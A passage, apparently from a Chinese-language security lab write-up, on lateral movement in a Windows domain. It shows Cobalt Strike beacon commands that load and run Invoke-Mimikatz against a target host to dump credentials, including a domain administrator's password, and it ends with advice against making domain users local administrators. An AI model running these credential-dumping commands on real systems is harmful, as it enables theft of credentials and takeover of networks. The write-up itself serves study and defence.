 如果提示：`无法将“Invoke-Mimikatz”项识别为 cmdlet、函数……`，则可以将两条命令以分号合并在一起运行，即：

```bash
# beacon> powershell import-module C:\Invoke-Mimikatz.ps1 ; Invoke-Mimikatz -ComputerName SERVER20082
beacon> powershell import-module C:\Users\win701\Desktop\Invoke-Mimikatz.ps1 ; Invoke-Mimikatz -ComputerName TARGET
```

![image-20211205184229908](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f0d8de46b946c657fb84f7190651f5af43b81e72.png)

这样的话就拿到了Server2008-2的账密，以及域控超级管理员账号和密码，如果域控开启了3389就可以直接远程连接

![image-20211205185443240](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ec7c35e8fa12d2f1133ad59452e4d8fe04bac6e5.png)

实验中导致横向移动原因是因为存在域普通用户作为本地超级管理员的情况，企业应避免使用这种不安全的权限分配  
![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-82c219c1cfd6b85e7dfb18ecf4ae1ef92157deb5.watermark%2Ctype_d3f5lxplbmhlaq%2Cshadow_50%2Ctext_q1netibat2nlyw46kq%3D%3D%2Csize_20%2Ccolor_ffffff%2Ct_70%2Cg_se%2Cx_16)